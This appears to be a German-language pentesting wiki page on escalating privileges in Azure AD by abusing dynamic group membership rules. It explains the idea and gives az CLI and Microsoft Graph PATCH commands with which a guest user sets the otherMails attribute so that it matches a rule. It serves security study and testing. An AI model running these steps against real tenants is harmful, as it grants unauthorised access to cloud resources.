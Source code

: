 # Az - Dynamic Groups Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## Grundinformationen

**Dynamische Gruppen** sind Gruppen, die eine Reihe von **Regeln** konfiguriert haben, und alle **Benutzer oder Geräte**, die den Regeln entsprechen, werden der Gruppe hinzugefügt. Jedes Mal, wenn ein **Attribut** eines Benutzers oder Geräts **geändert** wird, werden die dynamischen Regeln **erneut überprüft**. Und wenn eine **neue Regel** **erstellt** wird, werden alle Geräte und Benutzer **überprüft**.

Dynamischen Gruppen können **Azure RBAC-Rollen zugewiesen** werden, aber es ist **nicht möglich**, **AzureAD-Rollen** zu dynamischen Gruppen hinzuzufügen.

Dieses Feature erfordert eine Azure AD Premium P1-Lizenz.

## Privesc

Beachten Sie, dass standardmäßig jeder Benutzer Gäste in Azure AD einladen kann. Wenn also eine dynamische Gruppen-**regel** **Berechtigungen** für Benutzer basierend auf **Attributen** gewährt, die in einem neuen **Gast** **festgelegt** werden können, ist es möglich, einen Gast mit diesen Attributen zu **erstellen** und die **Berechtigungen zu eskalieren**. Es ist auch möglich, dass ein Gast sein eigenes Profil verwaltet und diese Attribute ändert.

Holen Sie sich Gruppen, die dynamische Mitgliedschaft erlauben: **`az ad group list --query "[?contains(groupTypes, 'DynamicMembership')]" --output table`**

### Beispiel

- **Regelbeispiel**: `(user.otherMails -any (_ -contains "security")) -and (user.userType -eq "guest")`
- **Regelbeschreibung**: Jeder Gastbenutzer mit einer sekundären E-Mail, die den String 'security' enthält, wird der Gruppe hinzugefügt.

Für die E-Mail des Gastbenutzers, akzeptieren Sie die Einladung und überprüfen Sie die aktuellen Einstellungen **dieses Benutzers** in [https://entra.microsoft.com/#view/Microsoft_AAD_IAM/TenantOverview.ReactView](https://entra.microsoft.com/#view/Microsoft_AAD_IAM/TenantOverview.ReactView).\
Leider erlaubt die Seite nicht, die Attributwerte zu ändern, daher müssen wir die API verwenden:
```powershell
# Login with the gust user
az login --allow-no-subscriptions

# Get user object ID
az ad signed-in-user show

# Update otherMails
az rest --method PATCH \
--url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
--headers 'Content-Type=application/json' \
--body '{"otherMails": ["newemail@example.com", "anotheremail@example.com"]}'

# Verify the update
az rest --method GET \
--url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
--query "otherMails"
```
## Referenzen

- [https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/](https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/)

{{#include ../../../../banners/hacktricks-training.md}}

